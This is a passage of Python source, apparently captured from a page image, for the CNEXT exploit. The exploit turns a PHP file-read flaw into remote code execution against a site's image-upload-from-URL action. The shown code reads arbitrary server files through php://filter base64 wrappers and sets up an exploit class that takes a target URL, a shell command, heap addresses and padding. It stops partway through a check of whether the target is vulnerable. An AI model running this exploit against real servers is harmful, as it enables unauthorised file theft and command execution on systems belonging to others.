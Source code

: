 ~~~ python
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
       
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        file_path = self.send(path).json()['response']
       
        if 'File type' in file_path:
            print(file_path)
            return b''
       
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""
    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
       
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
           
        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

~~~